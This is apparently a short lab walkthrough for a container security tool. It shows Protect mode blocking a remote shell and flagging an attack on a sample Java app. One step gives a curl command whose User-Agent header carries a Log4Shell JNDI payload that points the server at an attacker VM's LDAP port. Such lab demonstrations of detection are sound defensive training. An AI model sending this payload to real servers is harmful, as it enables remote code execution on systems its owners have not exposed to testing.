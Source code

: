 # Protect sample-app


Go to **Policy > Groups** and choose the `nv.sample-app.default` group.

Switch the mode of this group to **Protect**.

Go to process profile rules and delete all rules but the ones for `pause` and `java`.

Execute any command in the remote shell on the attacker01 vm and see that its blocked.

You will have an alert under **Notifications > Security Events**.

Go to **Policy > Network Rules** and delete the rule

* From `nv.sample-app.default` to `external`

Execute the request to trigger the attack:

**Run the following commands on the victim01 VM.**

```
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

You will have an alert under **Notifications > Security Events**.
